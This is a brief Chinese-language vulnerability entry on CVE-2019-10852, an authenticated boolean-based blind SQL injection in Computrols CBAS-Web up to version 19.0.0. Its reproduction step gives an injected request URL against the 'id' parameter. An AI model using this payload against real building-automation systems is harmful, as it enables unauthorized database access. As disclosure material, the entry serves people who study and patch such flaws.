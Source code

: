 # （CVE-2019-10852）Computrols CBAS Web SQL 注入

> 原文：[http://book.iwonder.run/0day/Computrols CBAS Web/2.html](http://book.iwonder.run/0day/Computrols CBAS Web/2.html)

## 一、漏洞简介

Computrols CBAS-Web 经过身份验证的基于布尔的盲 SQL 注入

## 二、漏洞影响

19.0.0 及以下

## 三、复现过程

```
http://www.0-sec.org/cbas/index.php?m=servers&a=start_pulling&id=1 AND 2510 = 2510 
```

